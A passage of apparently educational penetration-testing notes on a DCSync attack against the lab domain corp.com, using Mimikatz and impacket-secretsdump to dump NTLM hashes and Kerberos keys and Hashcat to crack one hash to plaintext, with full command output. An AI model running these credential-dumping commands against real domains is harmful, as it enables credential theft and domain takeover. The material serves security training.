 ```
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
...
```
+ Mimikatz performed the dcsync attack by impersonating a domain controller and obtained the user credentials of _dave_ by using replication

Now, let's copy the NTLM hash and store it in a file named **hashes.dcsync** on our Kali system
+ We can then crack the hash using Hashcat as we learned in the _Password Attacks_ Module
+ We'll enter **1000** as mode, **rockyou.txt** as wordlist, and **best64.rule** as rule file
+ Additionally, we will enter the file containing the NTLM hash and **--force**, since we run Hashcat in a VM
```
kali@kali:~$ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1              
...
```
+ Above shows that we successfully retrieved the plaintext password of _dave_

We can now obtain the NTLM hash of any domain user account of the domain **corp.com**
+ Furthermore, we can attempt to crack these hashes and retrieve the plaintext passwords of these accounts
+ Notably, we can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator _Administrator_
```
mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...
```
+ We'll discuss lateral movement vectors such as leveraging NTLM hashes obtained by dcsync in the Module _Lateral Movement in Active Directory_

#### dcsync on Linux with Impacket 
For now, let's perform the dcsync attack from Linux as well
+ We'll use impacket-secretsdump to acheive this
+ To launch it, we'll enter the target username **dave** as an argument for **-just-dc-user** and provide the credentials of a user with the required rights, as well as the IP of the domain controller in the format **domain/user:password@ip**
```
impacket-secretsdump -just-dc-user <USER_BEING_ATTACKED> <DOMAIN>/<CREDENTIALED_USER>:"<PASSWORD>"@<DC-IP>
```
+ Example:
```
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up...
```
+ Above shows that we successfully obtained the NTLM hash of _dave_